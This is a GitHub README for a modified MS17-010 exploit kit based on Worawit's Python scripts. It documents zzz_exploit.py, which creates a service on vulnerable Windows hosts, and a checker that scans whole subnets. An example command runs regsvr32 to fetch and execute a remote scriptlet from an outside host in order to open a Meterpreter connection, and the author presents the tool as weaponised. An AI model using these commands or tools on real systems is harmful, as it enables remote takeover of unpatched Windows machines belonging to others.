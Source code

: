 # MS17-010: Python
All credit goes to Worawit: 
[GitHub](https://github.com/worawit/MS17-010/)
[Twitter](https://twitter.com/sleepya_/)

Worawit Wang released a collection of Python exploits for MS17-010. These tools worked far more reliably than the Metasploit modules but didn't have much of a payload besides writing a pwned.txt to the C:/. However, Worawit Wang did add functionality for creating a service. 

Korey McKinley wrote an [article](https://lmgsecurity.com/manually-exploiting-ms17-010/) utilising that function to create a service which used regsvr32 to call back to Meterpreter and create a full Meterpreter connection. I'd never seen that path to exploitation, so I thought I'd modify zzz_exploit.py with Korey's logic and make the script more dynamic and user friendly. 

However, the module Korey used in that blog article was not available in my version of Metasploit. It is now called **web_delivery**. 

The zzz_exploit.py found in this repo is the same exploit logic. But it has been made more dynamic. It is now possible to pass user and password with the -u and -p, respectively. A command to write to a service is passed with the -c option and the target and pipe are -t and -p. 

Logger.py is just a script I've been reusing with all my code to prettify output. If deleted, zzz will break :)

Here is the full help page output:
```
➜  MS17-010 git:(master) ✗ ./zzz_exploit.py --help                                                                                        
usage: zzz_exploit.py [-h] [-u] [-p] -t  [-c] [-P] [--version]

Tested versions:
1	Windows 2016 x64
2	Windows 10 Pro Vuild 10240 x64
3	Windows 2012 R2 x64
4	Windows 8.1 x64
5	Windows 2008 R2 SP1 x64
6	Windows 7 SP1 x64
7	Windows 2008 SP1 x64
8	Windows 2003 R2 SP2 x64
9	Windows XP SP2 x64
10	Windows 8.1 x86
11	Windows 7 SP1 x86
12	Windows 2008 SP1 x86
13	Windows 2003 SP2 x86
14	Windows XP SP3 x86
15	Windows 2000 SP4 x86

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target for exploitation
  -c , --command    Command to add to service
  -P , --pipe       Pipe to connect to
  --version         show program's version number and exit
Example: python zzz_exploit -t 192.168.0.1 -c 'regsvr32 /s /n /u /i:http://192.168.0.1:9000/1EsrjpXH2pWdgd.sct scrobj.dll'
```
I wrote an article using Korey's payload and the new changes to the script, please see it [here](https://mez0.cc/posts/weaponised-worawit.html)


I made similar changes to checker.py, but the only additional logic I added was to be able to effectively run this script across a subnet. I imported the **netaddr** module and wrote a short for loop to run across the subnet.

Here is the help page for checker.py:

```
➜  MS17-010_WORAWIT git:(master) ✗ python checker.py --help         
usage: checker.py [-h] [-u] [-p] -t  [--version]

MS17-010 Checker script

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target to check for MS17-010
  --version         show program's version number and exit

Example: python checker.py -t 192.168.0.1
```

Any further ideas, changes or fixes; please let me know!
